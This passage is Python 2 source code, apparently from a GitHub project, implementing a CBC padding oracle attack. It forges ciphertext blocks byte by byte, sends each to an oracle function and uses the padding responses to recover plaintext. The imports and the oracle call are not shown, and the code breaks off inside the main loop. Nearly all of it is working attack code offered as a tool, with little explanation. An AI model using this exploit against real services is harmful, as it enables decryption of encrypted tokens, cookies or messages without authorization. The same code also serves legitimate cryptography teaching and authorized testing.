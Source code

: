 ```
def split_len(seq, length):
    return [seq[i:i+length] for i in range(0, len(seq), length)]

''' create custom block for the byte we search'''
def block_search_byte(size_block, i, pos, l):
    hex_char = hex(pos).split('0x')[1]
    return "00"*(size_block-(i+1)) + ("0" if len(hex_char)%2 != 0 else '') + hex_char + ''.join(l)    

''' create custom block for the padding'''
def block_padding(size_block, i):
    l = []
    for t in range(0,i+1):
        l.append(("0" if len(hex(i+1).split('0x')[1])%2 != 0 else '') + (hex(i+1).split('0x')[1]))
    return "00"*(size_block-(i+1)) + ''.join(l)

def hex_xor(s1,s2):
    return hexlify(''.join(chr(ord(c1) ^ ord(c2)) for c1, c2 in zip(unhexlify(s1), cycle(unhexlify(s2)))))

def run(cipher,size_block,verbose=True):
    cipher       = cipher.upper()
    print "cipher = '{}'".format(cipher)
    found        = False
    valide_value = []
    result       = []
    len_block    = size_block*2
    cipher_block = split_len(cipher, len_block)

    if len(cipher_block) == 1:
        print "[-] Abort there is only one block"
        sys.exit()  
    #for each cipher_block
    for block in reversed(range(1,len(cipher_block))):
        if len(cipher_block[block]) != len_block:
            print "[-] Abort length block doesn't match the size_block"
            break
        print "[+] Search value block : ", block, "\n"
        #for each byte of the block
        for i in range(0,size_block):
            # test each byte max 255
            for ct_pos in range(0,256):
                # 1 xor 1 = 0 or valide padding need to be checked
                if ct_pos != i+1 or (len(valide_value) > 0  and int(valide_value[-1],16) == ct_pos):

                    bk = block_search_byte(size_block, i, ct_pos, valide_value) 
                    bp = cipher_block[block-1]
                    bc = block_padding(size_block, i) 

                    tmp = hex_xor(bk,bp)
                    cb  = hex_xor(tmp,bc).upper()

                    up_cipher  = cb + cipher_block[block]

                    # we call the oracle, our god
                    connection, response = call_oracle(up_cipher) #, s)

                    if verbose == True:
                        exe = re.findall('..',cb)
                        discover = ('').join(exe[size_block-i:size_block])
                        current =  ('').join(exe[size_block-i-1:size_block-i])
                        find_me =  ('').join(exe[:-i-1])
```